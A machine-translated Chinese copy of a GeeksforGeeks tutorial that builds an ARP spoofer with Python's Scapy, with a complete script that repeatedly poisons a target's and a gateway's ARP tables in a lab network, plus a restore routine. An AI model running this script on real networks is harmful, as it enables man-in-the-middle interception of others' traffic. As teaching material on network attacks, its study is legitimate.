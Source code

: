 # Python–如何使用 Scapy 创建一个 ARP 欺骗器？

> 原文:[https://www . geeksforgeeks . org/python-如何使用-scapy/](https://www.geeksforgeeks.org/python-how-to-create-an-arp-spoofer-using-scapy/) 创建 arp 欺骗器

ARP 欺骗是黑客在网络中发送伪造的 ARP 的恶意攻击。连接网络中的每个节点都有一个 ARP 表，通过这个表我们可以识别连接设备的 IP 地址和 MAC 地址。
什么目的发送一个 ARP 广播找到我们想要的 IP 需要欺骗，然后欺骗网关，以及目标通过更新他们的 ARP 表。这将使目标发送的网络数据包从我们的机器传递到网络网关，从而使 ARP 欺骗成功
要设计一个 python 脚本来创建 ARP 欺骗器，我们需要 Scapy 模块。Scapy 是一个非常强大的包操作工具和库，完全用 python
编写。要安装这个模块，打开你的终端，键入:

```
pip3 install scapy
```

下面演示的代码需要 python 3 才能工作。建议将您的 python 更新到最新版本。
**创建 ARP 欺骗器的步骤:**

1.  获取我们想要欺骗的 IP 地址
2.  获取我们想要欺骗的 IP 的 MAC 地址
3.  然后使用 ARP()函数创建一个欺骗数据包来设置目标 IP，欺骗 IP 和我们在上面找到的 MAC 地址。
4.  开始欺骗
5.  显示发送的数据包数量信息
6.  最后，在欺骗之后，将欺骗地址的 ARP 表重新设置为默认值

Now open your python IDE and import scapy as follows:

```
import scapy.all as scapy
import time
```

现在，我们设计了一个函数，返回我们想要的 IP 地址的 MAC 地址:

```
def get_mac(ip):
    arp_request = scapy.ARP(pdst = ip)
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0]
    return answered_list[0][1].hwsrc
```

在这个函数 get_mac()中，无论输入了什么 IP 地址，都会使用 arp()函数创建一个 arp_request，我们使用 Ether 函数
将广播 mac 地址设置为“ff:ff:ff:ff:ff”，现在我们需要将这些地址加入到一个数据包中，因此我们使用/来完成这个操作。
SRP()函数返回响应数据包和没有响应的两个 IP 地址列表。具有所请求的匹配 IP 地址的 MAC 地址将存储在 **hwsrc** 字段中。我们将这个媒体访问控制地址返回到调用函数的地方。要了解 scapy 提供了哪些字段，还可以运行以下命令:

```
print(scapy.ls(scapy.ARP))
```

您将看到以下可用字段:
![Scapy.ls()](img/d6e36a3d1f365aca47c0f7c399d8eb5f.png)
现在我们已经创建了一个函数，该函数为我们提供了所需的 MAC 地址，接下来我们将创建如下恶搞()函数:

```
def spoof(target_ip, spoof_ip):
    packet = scapy.ARP(op = 2, pdst = target_ip, 
                     hwdst = get_mac(target_ip), 
                               psrc = spoof_ip)

    scapy.send(packet, verbose = False)
```

该函数采用两个参数，即目标 IP 和欺骗 IP。我们再次使用 ARP()函数设计一个数据包，修改网关和目标的 ARP 表，并使用 send()函数开始欺骗。您可以将 verbose 设置为 False，因为 send 函数显示一些我们不需要的默认信息。你可以调整这个选项来获得更好的理解。
现在我们调用欺骗函数启动 ARP 欺骗:

```
target_ip = "10.0.2.5" # Enter your target IP
gateway_ip = "10.0.2.1" # Enter your gateway's IP
spoof(target_ip, gateway_ip) 
spoof(gateway_ip, target_ip)
```

不幸的是，上面的代码只更新了一次 ARP 表。如果我们不持续更新它们，那么默认情况下，目标的 ARP 表会自动更正为默认值。
因此我们修改了这个代码:

```
target_ip = "10.0.2.5"
gateway_ip = "10.0.2.1"
while True:
        spoof(target_ip, gateway_ip)
```

但是该代码也没有显示发送的数据包数量，因此我们再次修改它:

```
sent_packets_count = 0
while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="")
```

上面的代码现在可以像预期的那样正常运行，但是仍然有一些事情没有完成。这包括无限循环，如果我们不给它一个停止的中断，这段代码将继续运行。
因此上述代码可以重写:

```
target_ip = "10.0.2.5"
gateway_ip = "10.0.2.1"

try:
    sent_packets_count = 0
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="")
        time.sleep(2) # Waits for two seconds
except KeyboardInterrupt:
    print("\nCtrl + C pressed.............Exiting")
```

上面的代码可以完美地运行，并且每当它得到一个键盘中断时就会停止。这段代码几乎是完美的，但是我们仍然没有将 ARP 表重新更新回默认值。因此，我们可以创建一个函数，如下所示:

```
def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op = 2, pdst = destination_ip, 
                             hwdst = destination_mac, 
                psrc = source_ip, hwsrc = source_mac)

    scapy.send(packet, verbose = False)
```

现在我们终于涵盖了所有内容，ARP 欺骗的代码应该如下所示:

```
import scapy.all as scapy
import time

def get_mac(ip):
    arp_request = scapy.ARP(pdst = ip)
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0]
    return answered_list[0][1].hwsrc

def spoof(target_ip, spoof_ip):
    packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = get_mac(target_ip),
                                                            psrc = spoof_ip)
    scapy.send(packet, verbose = False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(packet, verbose = False)

target_ip = "10.0.2.5" # Enter your target IP
gateway_ip = "10.0.2.1" # Enter your gateway's IP

try:
    sent_packets_count = 0
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="")
        time.sleep(2) # Waits for two seconds

except KeyboardInterrupt:
    print("\nCtrl + C pressed.............Exiting")
    restore(gateway_ip, target_ip)
    restore(target_ip, gateway_ip)
    print("[+] Arp Spoof Stopped")
```

既然你已经成功设计了代码，那么运行并检查它是否工作的时间到了:

下面是**黑客机** :
![](img/eb751959d9a040c75cabbddd54ec6e85.png)
下面是**受害机** :
![](img/6e09305d2f7cfa619242d3359eea64a2.png)
的截图在这里我们可以清楚地看到，受害者网关在 10.0.2.1 的 MAC 地址第二次发生了明显的变化。因此，我们知道我们的 ARP 欺骗代码是成功的。